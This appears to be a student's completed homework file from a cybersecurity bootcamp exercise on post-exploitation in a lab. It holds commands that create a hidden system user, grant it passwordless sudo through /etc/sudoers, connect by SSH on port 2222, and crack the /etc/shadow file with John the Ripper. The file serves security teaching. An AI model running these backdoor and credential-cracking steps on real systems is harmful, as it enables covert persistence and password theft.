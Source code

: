 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - useradd -M sysd

2. Give your secret user a password: 
    - passwd sysd

3. Give your secret user a system UID < 1000:
    - usermod -u 600 sysd

4. Give your secret user the same GID:
   - groupmod -g 600 sysd

5. Give your secret user full `sudo` access without the need for a password:
   -  cat >> /etc/sudoers <<< 'sysd  ALL=(ALL:ALL) NOPASSWD:ALL'

6. Test that `sudo` access works without your password:

    ```tail -1 /etc/sudoers
    ```

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ```sudo nano /etc/ssh/sshd_config
    ```

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - systemctl restart ssh.service

2. Exit the `root` account:
    - exit

3. SSH to the target machine using your `sysd` account and port `2222`:
    - ssh sysd@192.168.6.105 -p 2222

4. Use `sudo` to switch to the root user:
    - sudo su

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - ssh sysd@192.168.6.105 -p 2222

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - cat /etc/passwd /etc/shadow > passwords.txt

    - john passwords.txt

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

